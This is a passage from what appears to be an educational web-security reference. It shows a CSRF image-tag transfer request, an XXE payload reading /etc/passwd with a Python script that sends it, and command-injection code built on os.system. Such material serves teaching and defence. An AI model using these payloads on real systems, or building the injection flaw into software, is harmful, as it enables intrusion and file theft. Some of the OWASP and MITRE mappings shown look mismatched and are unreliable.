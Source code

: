 #### **Exploit Code Example:**
```html
<img src="http://bank.com/transfer.php?amount=1000" />
```
**Analysis:**
- The injected request can trick a user into transferring funds without their consent.
- **MITRE ATT&CK Reference:** This exploit can be used to achieve **T1071 (Application Layer Protocol)**.
- **OWASP Top 10 Reference:** This exploit falls under **A8:2021 - Software and Data Integrity Failures**.

### **11. XML External Entity (XXE) Injection**

#### **Vulnerable Code Example:**
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>&xxe;</foo>
```
**Analysis:**
- The attacker can read sensitive files on the server by exploiting the XML parser.
- **MITRE ATT&CK Reference:** This vulnerability can be exploited using techniques such as **T1190 (Exploit Public-Facing Application)**.
- **OWASP Top 10 Reference:** This vulnerability falls under **A4:2021 - Insecure Design**.

#### **Exploit Code Example:**
```python
import requests

# Send a malicious XML payload
payload = """<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>&xxe;</foo>"""

response = requests.post("http://vulnerable-website.com/api", data=payload)
print(response.text)
```
**Analysis:**
- The attacker can read sensitive files on the server by exploiting the XML parser.
- **MITRE ATT&CK Reference:** This exploit can be used to achieve **T1190 (Exploit Public-Facing Application)**.
- **OWASP Top 10 Reference:** This exploit falls under **A4:2021 - Insecure Design**.

### **12. Command Injection**

#### **Vulnerable Code Example:**
```python
import os

def execute_command(command):
    os.system(command)  # Executes user-provided command without validation

user_input = input("Enter command: ")
execute_command(user_input)
```
**Analysis:**
- The attacker can execute arbitrary commands on the server, leading to unauthorized access and data exposure.
- **MITRE ATT&CK Reference:** This vulnerability can be exploited using techniques such as **T1059 (Command and Scripting Interpreter)**.